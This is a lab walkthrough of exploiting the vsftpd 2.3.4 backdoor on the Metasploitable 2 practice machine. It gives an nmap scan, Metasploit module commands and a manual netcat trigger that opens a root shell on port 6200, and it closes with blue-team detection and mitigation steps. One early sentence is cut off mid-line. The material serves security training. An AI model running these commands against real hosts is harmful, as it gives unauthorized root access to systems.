



Service Overview
FTP (File Transfer Protocol) is a standard network protocol for transferring files between a client and server. On Metasploitable 2, FTP runs on port 21 via vsftpd 2.3.4 — a version that was compromised in a supply-chain attack.
:) is submitted during login, the backdoor opens a shell on port 6200.
Service Detection & Enumeration
Run Nmap to identify the FTP service version running on port 21:
nmap -sV -v -p 21 <target-ip>

Nmap identifies vsftpd 2.3.4 — a well-known vulnerable version, immediately recognizable to any experienced attacker.
Exploitation via Metasploit
Launch Metasploit and search for the vsftpd module:
msfconsole # Inside msfconsole: search vsftpd use exploit/unix/ftp/vsftpd_234_backdoor set RHOSTS <target-ip> set RPORT 21 run

The shell spawned is a root-level shell — no privilege escalation step required. The backdoor runs with the same privileges as the vsftpd daemon, which is root.
Manual Exploitation via Netcat
The backdoor can also be triggered manually without Metasploit — useful when only basic tools are available:
# Step 1: Connect to FTP and trigger the backdoor nc <target-ip> 21 # Type the following over the netcat session: USER test:) PASS anything # Step 2: In a new terminal, connect to the backdoor shell on port 6200 nc <target-ip> 6200

Results & Impact
Outcome
- Root shell obtained with no credentials required
- No post-exploitation privilege escalation needed
- Full system compromise in a single step
- Demonstrates the catastrophic impact of supply-chain attacks
Detection & Mitigation (Blue Team)
- Upgrade to vsftpd 2.3.5 or later immediately — 2.3.4 is permanently backdoored
- Alert on vsftpd 2.3.4 running anywhere in production
- Monitor FTP logs for usernames containing
:) - Watch for unexpected outbound connections on port 6200
- Replace FTP with SFTP — FTP transmits credentials in plaintext
- Apply network-level firewall rules to restrict FTP access